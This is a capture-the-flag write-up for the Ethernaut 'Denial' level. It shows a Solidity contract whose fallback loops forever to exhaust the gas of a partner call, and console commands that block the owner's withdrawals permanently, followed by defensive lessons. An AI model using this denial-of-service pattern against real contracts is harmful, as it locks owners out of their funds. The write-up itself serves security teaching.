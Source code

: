 # Level 20: Denial

## Challenge Overview

This level shows how a malicious fallback can block a contract’s logic by draining all provided gas.  
In the `Denial` contract, calling `withdraw()` sends 1% of its balance to a “partner” via `partner.call{gas: 1e6, value: …}("")`.  
If that partner’s fallback uses up all 1 000 000 gas, `partner.call` returns `false` and `withdraw()` reverts before paying the owner.



## Solution

### 1. Deploy a Malicious Partner Contract

Create a contract whose fallback gets stuck in an infinite loop, consuming all gas in its stipend:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DenialAttack {
    fallback() external payable {
        while (true) { }
    }
}
```

> This fallback will use up the entire 1 000 000 gas supplied by Denial’s `partner.call`.



### 2. Set Your Contract as the Partner

In the Ethernaut console (with `denial` pointing to the `Denial` instance and `denialAttack` your deployed address), run:

```js
await denial.setWithdrawPartner(denialAttack.address);
```

> Now, whenever `withdraw()` tries to send 1% to `partner`, it calls your `DenialAttack` fallback.



### 3. Trigger the DoS and Verify

Call `withdraw()`:

```js
try {
  await denial.withdraw();
} catch (err) {
  console.log("withdraw() failed due to gas exhaustion");
}
```



When `Denial` executes:

```solidity
(sentToPartner, ) = partner.call{gas: 1e6, value: amountToSend}("");
require(sentToPartner);
```

- The fallback’s infinite loop drains the 1 000 000 gas, so `sentToPartner` is `false`  
- `withdraw()` reverts. The owner never receives the remaining 99%.
- Any future `withdraw()` will behave the same way — owner can never be paid.



## Lessons Learned

- Don’t let a fallback consume unbounded gas. An infinite loop or heavy computation blocks the caller’s execution.
- Be careful when using `call{gas: …}` on untrusted addresses—if that gas is used up, your function can revert.
- Instead of `require(partner.call(...))`, consider handling a failed partner transfer (e.g., send remainder to owner or revert early).
- Use `.transfer()` or low-gas-limit calls only when you trust the recipient, and always apply checks-effects-interactions to avoid DoS.
